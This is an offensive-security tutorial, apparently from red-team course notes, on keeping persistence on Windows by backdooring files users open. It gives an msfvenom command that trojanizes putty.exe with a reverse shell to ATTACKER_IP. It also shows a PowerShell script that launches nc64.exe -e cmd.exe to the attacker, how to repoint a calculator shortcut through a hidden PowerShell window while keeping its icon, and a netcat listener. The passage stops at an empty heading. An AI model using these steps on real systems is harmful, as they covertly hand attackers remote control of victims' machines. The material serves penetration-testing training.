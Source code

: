# Backdooring files

Another method of establishing persistence tampers with files we know users interact with regularly. 
We can plant backdoors that will get executed whenever the user accesses them. We do not want to create any alerts 
that could blow our cover, so the files we alter must keep working for the user as expected.

There are many ways and files to plant backdoors in. These are the most commonly used ones.

## Executable Files

Any executable lying around the desktop are highly likely used frequently. Suppose we find a shortcut to `PuTTY`. 
Checking the shortcut's properties, it probably points to `C:\Program Files\PuTTY\putty.exe`. We could download the 
executable to our attacker's machine and modify it to run any payload we wanted.

To create a backdoored `putty.exe`:

    msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe

The binary will still work as usual and will execute an additional payload silently by adding an extra thread in the 
binary. The resulting `puttyX.exe` will execute a `reverse_tcp meterpreter` payload without the user noticing it.

## Shortcut files

If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing 
directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute 
the usual program normally.

For example, if there is a calc shortcut, find where it is pointing to by right-clicking it and going to properties.

Create a Powershell script in `C:\Windows\System32` or any other sneaky location. The script will execute a reverse 
shell and then run `calc.exe` from the original location on the shortcut's properties:

    Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
    
    C:\Windows\System32\calc.exe

Save it as `backdoor.ps1`, or perhaps something less conspicuous.

Change the shortcut to point to the script. Its icon might be automatically adjusted while doing so. Be sure to point 
the icon back to the original executable so that no visible changes appear to the user. We also want to run the script 
in a hidden window, for which we add the `-windowstyle hidden` option to Powershell. 

Making the final target of the shortcut (in the calc properties window, don't forget the icon):

    powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1

Start a netcat listener to receive the reverse shell:

    nc -nlvp 4445

Try it out by double-clicking the shortcut, see that there is a connection back to the attack machine, and that 
the user will get a calculator just as expected. There may be a command prompt flashing up and disappearing 
immediately on the screen. A regular user might not mind too much about that, maybe. 

## Hijacking file associations



